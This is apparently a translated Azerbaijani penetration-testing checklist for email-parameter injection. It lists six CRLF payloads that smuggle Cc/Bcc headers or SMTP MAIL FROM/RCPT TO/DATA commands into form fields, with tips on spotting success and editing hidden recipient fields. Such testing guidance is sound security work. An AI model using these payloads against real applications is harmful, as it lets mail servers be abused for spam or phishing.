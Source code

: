 # E-poçt Parametrlərinin Test Edilməsi

Aşağıdakı test mətnlərini hər bir parametr üçün təqdim etməlisiniz, əlaqəli yerlərdə öz e-poçt ünvanınızı daxil edin:

1. `<youremail>%0aCc:<youremail>`
2. `<youremail>%0d%0aCc:<youremail>`
3. `<youremail>%0aBcc:<youremail>`
4. `<youremail>%0d%0aBcc:<youremail>`
5. `%0aDATA%0afoo%0a%2e%0aMAIL+FROM:+<youremail>%0aRCPT+TO:+<youremail>%0aDATA%0aFrom:+<youremail>%0aTo:+<youremail>%0aSubject:+test%0afoo%0a%2e%0a`
6. `%0d%0aDATA%0d%0afoo%0d%0a%2e%0d%0aMAIL+FROM:+<youremail>%0d%0aRCPT+TO:+<youremail>%0d%0aDATA%0d%0aFrom:+<youremail>%0d%0aTo:+<youremail>%0d%0aSubject:+test%0d%0afoo%0d%0a%2e%0d%0a`

## Diqqət Edilməli Məqamlar:

- **Xəta Mesajları:** Tətbiqin qaytardığı xəta mesajlarını qeyd edin. Əgər bu mesajlar e-poçt funksiyası ilə bağlı problemləri göstərirsə, zəifliyi istismar etmək üçün daxil etdiyiniz məlumatları dəqiqləşdirmək lazım ola bilər.
  
- **E-poçt Monitorinqi:** Tətbiqin cavabları zəifliyin mövcud olub-olmaması və ya uğurla istismar edilib-edilməməsi barədə heç bir məlumat verməyə bilər. Bu səbəbdən, təyin etdiyiniz e-poçt ünvanına hər hansı bir e-poçtun gəlib-gəlmədiyini yoxlayın.

- **HTML Formunun Təhlili:** Əlaqəli sorğunu yaradan HTML formasını yaxından nəzərdən keçirin. Bu forma, istifadə olunan server tərəfdəki proqram təminatı ilə bağlı ipuçları təqdim edə bilər. Həmçinin, e-poçtun göndəriləcəyi ünvanı təyin edən gizli və
- ya deaktiv edilmiş bir sahə də ola bilər ki, bunu birbaşa dəyişdirə bilərsiniz.
